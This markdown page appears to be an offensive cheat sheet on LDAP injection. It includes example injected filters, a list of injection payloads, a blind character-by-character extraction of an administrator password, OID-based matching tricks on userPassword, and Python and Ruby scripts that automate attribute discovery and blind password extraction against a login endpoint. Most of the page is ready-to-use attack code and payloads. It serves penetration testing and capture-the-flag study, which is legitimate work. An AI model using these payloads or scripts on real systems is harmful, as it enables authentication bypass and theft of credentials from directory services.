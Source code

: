 +++
title = "LDAP Injection"
date = '2022-10-16'
description = 'All about LDAP injection techniques, methods, payloads, how/why/when they work.'
+++
# LDAP injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Exploitation

Example 1.

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

Example 2

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## Payloads

```text
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation

We can extract using a bypass login

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## Defaults attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## Exploiting userPassword attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover valid LDAP fields

```python
#!/usr/bin/python3

import requests
import string

fields = []

url = 'https://URL.com/'

f = open('dic', 'r') #Open the wordlists of common attributes
wordl = f.read().split('\n')
f.close()

for i in wordl:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

Ref. [5][5]

### Special blind LDAP injection (without "*")

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Ref. [5][5]

```ruby
#!/usr/bin/env ruby

require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''

(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```

By [noraj](https://github.com/noraj)


## References

* [OWASP LDAP Injection](https://www.owasp.org/index.php/LDAP_injection)
* [LDAP Blind Explorer](http://code.google.com/p/ldap-blind-explorer/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [Quals ECW 2018 - Maki](https://maki.bzh/courses/blog/writeups/qualecw2018/)
* [How To Manage and Use LDAP Servers with OpenLDAP Utilities](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [How To Configure OpenLDAP and Perform Administrative LDAP Tasks](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* SSH key authentication via LDAP
    - [How to setup LDAP server for openssh-lpk](https://openssh-ldap-pubkey.readthedocs.io/en/latest/openldap.html)
    - [openssh-lpk.ldif](https://github.com/Lullabot/openldap-schema/blob/master/openssh-lpk.ldif)
    - [Setting up OpenLDAP server with OpenSSH-LPK on Ubuntu 14.04](https://blog.shichao.io/2015/04/17/setup_openldap_server_with_openssh_lpk_on_ubuntu.html)
    - [SSH key authentication using LDAP](https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap)
    - [FR] [SSH et LDAP](https://wiki.lereset.org/ateliers:serveurmail:ldap-ssh)
    - [SSH Public Keys in OpenLDAP](http://pig.made-it.com/ldap-openssh.html)
